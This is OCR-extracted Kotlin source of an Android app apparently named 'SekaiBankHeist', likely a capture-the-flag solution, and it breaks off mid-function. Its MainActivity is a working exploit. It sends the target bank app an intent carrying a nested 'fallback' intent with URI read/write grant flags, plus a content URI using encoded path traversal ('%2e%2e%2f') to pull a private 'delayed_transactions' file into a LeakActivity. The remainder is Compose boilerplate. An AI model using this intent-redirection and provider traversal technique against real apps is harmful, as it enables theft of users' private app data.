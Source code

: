 ```kotlin
import androidx.compose.ui.tooling.preview.Preview
import androidx.core.net.toUri
import com.sekai.heist.ui.theme.SekaiBankHeistTheme


class MainActivity : ComponentActivity() {
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)


        val extra = Intent()
        extra.setFlags(
            ((Intent.FLAG_GRANT_READ_URI_PERMISSION or
                    Intent.FLAG_GRANT_PREFIX_URI_PERMISSION or
                    Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION or
                    Intent.FLAG_GRANT_WRITE_URI_PERMISSION))
        )
        extra.setClassName(packageName, "com.sekai.heist.LeakActivity")
        extra.setData("content://com.sekai.bank.logprovider/%2e%2e%2ffiles%2fdelayed_transactions".toUri())

        val intent = Intent()
        intent.setComponent(
            ComponentName(
                "com.sekai.bank",
                "com.sekai.bank.MainActivity"
            )
        )

        intent.putExtra("context", "ww")
        intent.putExtra("fallback", extra)
        intent.putExtra("from_pin_setup", true)
        this.startActivity(intent)

        enableEdgeToEdge()
        setContent {
            SekaiBankHeistTheme {
                Scaffold(modifier = Modifier.fillMaxSize()) { innerPadding ->
                    Greeting(
                        name = "Android",
                        modifier = Modifier.padding(innerPadding)
                    )
                }
            }
        }
    }

    companion object {

    }
}

@Composable
fun Greeting(name: String, modifier: Modifier = Modifier) {
    Text(
        text = "Hello $name!",
        modifier = modifier
    )
}

@Preview(showBackground = true)
@Composable
fun GreetingPreview() {
```